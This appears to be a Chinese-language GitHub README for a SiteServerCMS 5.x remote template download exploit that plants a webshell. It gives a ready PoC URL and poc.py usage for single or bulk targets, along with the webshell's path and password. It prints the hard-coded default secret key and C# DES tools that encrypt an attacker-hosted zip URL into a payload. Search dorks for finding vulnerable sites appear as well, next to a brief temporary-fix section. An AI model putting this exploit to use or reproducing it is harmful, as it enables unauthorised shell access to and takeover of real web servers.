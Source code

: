 ## SiteServerCMS-Remote-download-Getshell-vulnerability

SiteServerCMS 远程模板下载Getshell漏洞

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/598750731.jpg)

漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀.先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。

且SecretKey在5.0是默认值
> vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5

### References

Author:1u0hun

[简记野生应急捕获到的siteserver远程模板下载Getshell漏洞](https://www.freebuf.com/articles/web/195105.html)



### Affected Version
SiteServerCMS 5.x

SiteServerCMS 4.x(测试没通过)

### PoC
Author:We1h0@PoxTeam

> http://localhost/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest


```
python2 poc.py -u http://localhost
```
![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/494367940.jpg)

```
python2 poc.py -f url.txt
```

Ps:注意最后面没/

WebShell:http://localhost/SiteFiles/SiteTemplates/sectest/include.aspx

PassWord:admin



### 搜索引擎关键字:

inurl:/sitefiles/services

inurl:/siteserver/login.aspx

### 临时修复方案
修改 

> 1.C:/WebSite/SiteFiles/Configuration/Configuration.config

secretKey的值

> 2.更改后台地址

> 3.更改(或移除模板下载功能)/SiteServer/Ajax/ajaxOtherService.aspx路径

### downloadUrl加密工具
#### C#
[VSCODE配置C#](https://blog.csdn.net/qq_40346899/article/details/80955788)

<CODE>dotnet new console -o test</CODE>

<CODE>dotnet run</CODE>
生成目录后的Program.cs替换以下代码

1.然后修改_inputString的值(你指定的下载地址)
```C#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/webshell/poxteam.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/545223712.jpg)

2.把出来的结果丢这里

Python

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw=="
str_decry = str_decry.replace("+", "0add0").replace("=", "0equals0").replace("&", "0and0").replace("?", "0question0").replace("/", "0slash0")

print str_decry
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1213922991.jpg)

得出转义后的下载链接，修改Poc.py 

<code>/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=这里&directoryName=sectest</code>

### downloadUrl解密工具

(也可以用来解web.config的数据库链接信息,密钥不变的情况下,如果密钥变了找SiteFiles/Configuration/Configuration.config的secretKey的值)

1.先用python的还原

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0"
str_decry = str_decry.replace("0add0", "+").replace("0equals0", "=").replace("0and0", "&").replace("0question0", "?").replace("0slash0", "/")

print str_decry

```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1853999564.jpg)

2.再用c#以下的代码还原回默认下载链接

```c#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw==";
        var _outString = ""; 
        var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try
        { 
          var byKey = Encoding.UTF8.GetBytes(_decryptKey.Substring(0, 8)); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Convert.FromBase64String(_inputString);
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateDecryptor(byKey, iv), CryptoStreamMode.Write);
              cs.Write(inputByteArray, 0, inputByteArray.Length);
              cs.FlushFinalBlock();
          Encoding encoding = new UTF8Encoding();
          _outString = encoding.GetString(ms.ToArray());
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
 
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1818119636.jpg)
